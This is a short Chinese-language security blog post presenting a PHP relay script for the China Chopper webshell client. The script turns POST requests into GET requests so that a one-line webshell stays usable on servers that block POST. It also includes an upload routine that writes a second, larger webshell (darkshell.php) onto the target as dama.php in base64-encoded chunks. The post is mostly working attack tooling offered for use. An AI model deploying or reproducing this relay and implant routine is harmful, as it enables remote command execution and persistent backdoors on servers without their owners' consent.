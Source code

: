 ```yaml
---
title: "PHP 菜刀中转脚本"
date: 2018-01-31T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


有的服务器 管理员脑抽把 POST 方法禁止

而菜刀是利用 POST 来发送执行代码的

只要把 POST 转换成 GET 就可以正常链接了

<!--more-->

```
<?php
ini_set('max_execution_time', '100'); // 超时时间

$url = 'http://127.0.0.1/cmd.php'; // 一句话地址
$pass = 'cmd'; // 密码
$data = $_POST['cmd']; // 中转密码

echo file_get_contents($url.'?'.$pass.'='.$data);

if(isset($_GET['upload'])){
	$f = fopen('darkshell.php','r'); // 上传文件
	while (!feof($f)){
		$content = base64_encode(fgetc($f));
		$exec = "file_put_contents('dama.php',base64_decode('$content'),FILE_APPEND);";
		file_get_contents($url.'?'.$pass.'='.$exec);
	}
	echo 'File uploaded successfully';
}
?>